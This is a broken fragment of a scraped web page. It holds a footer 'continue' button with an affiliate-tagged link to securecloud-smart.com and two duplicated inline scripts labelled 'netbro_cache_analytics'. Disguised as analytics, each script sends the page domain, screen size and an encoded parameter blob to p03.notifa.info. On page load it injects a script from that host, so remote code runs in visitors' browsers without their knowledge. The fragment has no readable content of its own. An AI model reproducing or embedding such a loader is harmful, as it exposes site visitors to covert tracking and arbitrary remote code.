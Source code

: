 </p></header><footer><a href="https://securecloud-smart.com/?a=100065&c=174995&s1=SABAR&s2=KLCORPS" class="btn-fin"><button type="submit" class="btn btn-danger btn-lg stylee">               continue                         </button></a></footer></section><footer id="footer"><ul class="copyright"><li></li></ul></footer></div><script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p03.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582JKzDzTsXZH2Ofq4ofV52vlMJyLEQk9L4bL2LbsFt4odi3ON%2fB1Cym%2fdGEU0E1wtWiUeiynXpmNhbx7V08eNi%2bocWVgra66K7Fslql5GXicf2xRkYXc%2bwfXhNYx62fZ9LyHmkJm3%2b244uDxqrxiOO4UiY2bWza%2bgb5r4%2b4o2tdnZiVOGetQP6s2HVjUW8xZRAfu0tBED1OkoZSBBQA81R9TGnojZP%2bOEcs2KTwYcx3%2fqVBA%2bM7FHeZuh9CGiFiseKJT3sXEQlahKS0U2S00GcSitEgAeQKAn%2bSlfe29zEgQlD5oaVK0Pvs5u66Ivqb9GGP%2bdain%2bzdpZ%2bhr9L0rMZxWfr0XwoQDDaio%2bgp1p9hg317tbBghARg6oU8uAqkPkDTdpkaEvB0B3PpXH0Hs%2fKfHpZZUExA4Iw5iI8PmRzVJvxlUVhfZAOuDWnJtT3HJUdUQIf%2bOHSBvj5l11%2bDhpRuSTGZGtHiH9Df6MFdOJVmOB0y6yKO5lJnXNE%2bbrcF8Jh%2bfhjA%2fN3RAvLokm8oJwN58lJkN4nPvnylmz548LrG%2fQCP12c6wNA1G%2bOeSSJ8ehuvzPqxxPQQ8ID%2bRJdEkuMFIZkDBGu37VrWQEkuLA06Ko4bwPl69wdG8QolNlHs72ePSTXN13abllMVr%2b9rhwro6Pve2qsYzHSQ%3d%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script><script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p03.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582JKzDzTsXZH2Ck9MyliaLyqR%2bk49P31oreOc0JN2t2E8%2fRIRnpyaQNamzXYXjM7N1H%2bX698PpdKSODQ8v%2fQYvxbnl9HcBaUtal6lpFWeAnqff6pcwOdreKDiRmAnmSN1imxBoGjtJ4EmJHZKLYgJEsQp6WXvxpabX0jBS2HGceHi3Uoda0yOV9ULdqax8VU6J%2f1xcJW3VsOLuWxSvQDldn3Qjavga83f5ilI4Mg%2fOJ3OiBTXHVlKaI98TzlEaL6ymtoUMH0FwbetDZrmLJD2lAZVbUSsB8S5IbJvg%2b%2bsMGE47uXeLP5WUdVoNjuTygvvq3nKJRKl51Fw2me2%2b1ClcqixpuZo%2f9QQKcW2enU3tQi61NgDbJ1AmPVjhkj0AfyNTAJxAkZkrHfsDDbhH%2fOkPdj2aK35%2foX3J2yyCfcIWCNtCEcfQhDb0bavG38hwY30rB%2fHxnhjhwsZa14wbWzB937OqSG52ov%2fijN%2f3ecwtM83%2fe6VLMIoVjig3AEluGL032LwGdH6PgqZiRILidfrZeNk1ItBl6LzsyxxZosSYlj52RSNAzmrBJzmteiqj2GByCLmnmPfiiWPnUJW5BVypw0At%2b8sZIcbStNwACJqiA%2fS6ZuIzT4W278%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script></body></body></html>
